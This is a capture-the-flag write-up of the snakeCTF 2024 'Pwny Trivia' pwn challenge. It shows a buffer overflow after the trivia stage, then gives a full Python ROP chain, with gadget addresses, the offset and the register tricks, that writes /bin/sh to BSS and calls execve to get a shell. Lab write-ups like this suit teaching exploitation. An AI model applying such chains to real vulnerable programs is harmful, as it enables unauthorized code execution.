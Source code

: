 # Pwny Trivia [_snakeCTF 2024 Quals_]

**Category**: pwn

## Description

I tried to write my own trivia game b/c I was bored, now I'm considering selling it!

## Solution

The program is a trivia game that requires the user to answer correctly to 5
questions to win.

By running `strings` on the binary, the hardcoded questions and answers can
easily be found, so it is possible to build a script that always answers
correctly and gets through the game.

By decompiling the program, it can be seen that after having answered correctly
to all the questions, when there is the possibility of sending an arbitrary input,
the call to `read` exposes the program to a buffer overflow.

![Decompiled program in ghidra](images/ghidra.png)

At this point the most straightforward way to get the flag is to build a ROP chain.
Conveniently, there are some functions that provide some gadgets that can be
directly used to build the chain:

The following gadgets are available, and they allow writing `/bin/sh` in memory
and with the goal of executing a `execve` syscall:

```python
ADD_RBX_1_MUL_RBX_MOV_RBX_RAX = 0x4011ca # add rbx, 1; mul rbx; mov rbx, rax; ret;
XOR_RBX_RBX = 0x4011dc # xor rbx, rbx; ret;
MOV_RCX_RBX = 0x4011e7 # mov [rcx], rbx;
POP_RCX_XOR_RAX_RCX_SUB_RAX_1 = 0x4011f2 # pop rcx; xor rax, rcx; sub rax, 0x1; ret
POP_RDI_POP_RSI_POP_RDX = 0x401202 # pop rdi; pop rsi; pop rdx; ret;
SYSCALL = 0x40152a # syscall
```

The goal is to write `b"/bin/sh\x00"` in `rbx`, load a writable address in `rcx`
and then write to that address using `MOV_RCX_RBX`. After having `/bin/sh`, all
it takes is to call `execve` and get a shell.

## Writing /bin/sh in `rbx`

```python
def write_bin_sh():
    chain = flat(
        # zeroing rax after last printf in program (prints 0x26 bytes)
        POP_RCX_XOR_RAX_RCX_SUB_RAX_1,
        0x27,
        # now rax = 0
        POP_RCX_XOR_RAX_RCX_SUB_RAX_1, b'0bin/sh\x00', # '0' gets decremented and becomes '/'
        # zeroing rbx
        XOR_RBX_RBX,
        # moving /bin/sh\x00 to rbx
        ADD_RBX_1_MUL_RBX_MOV_RBX_RAX
    )

    return chain
```

## Writing in memory and calling `execve`

An arbitrary writable address can be chosen, for example `0x407b20` which is in
BSS, and loaded into `rcx` by using `POP_RCX_XOR_RAX_RCX_SUB_RAX_1`. At this
point `MOV_RCX_RBX = mov [rcx], rbx` writes `/bin/sh\x00` in memory.

The last step needed is loading `0x3b` in `rax` in order to perform a `execve`.
If the binary is debugged in `gdb` it can be seen that after the execution of the
chain until this point, `rax` contains the value `0x68732f6e291f3a`, so by
sending `0x68732f6e291f3a ^ (0x3b + 1)` as a payload (+1 because the gadget
contains `sub rax 1`) it is possible to store the correct value in `rax`. With
`POP_RDI_POP_RSI_POP_RDX` the registers used to store the arguments can be modified, and finally with
`SYSCALL` a shell gets spawned. The complete chain looks like:

```python
BSS = 0x407b20
MEM = BSS + 500

offset = 136
chain = flat(
    offset * b'A',
    write_bin_sh(),
    # write addr where to write in rcx
    POP_RCX_XOR_RAX_RCX_SUB_RAX_1,
    MEM,
    # write /bin/sh in memory
    MOV_RCX_RBX,
    # load in rax 0x3b to perform execve
    POP_RCX_XOR_RAX_RCX_SUB_RAX_1,
    0x68732f6e291f3a ^ (0x3b + 1), # value in rax after previous ops ^ (value we want + 1 because of sub)
    # load args in registers for execve
    POP_RDI_POP_RSI_POP_RDX,
    MEM,    # *filename = addr of /bin/sh written in memory
    0,      # argv
    0,      # envp
    SYSCALL # profit
)
```
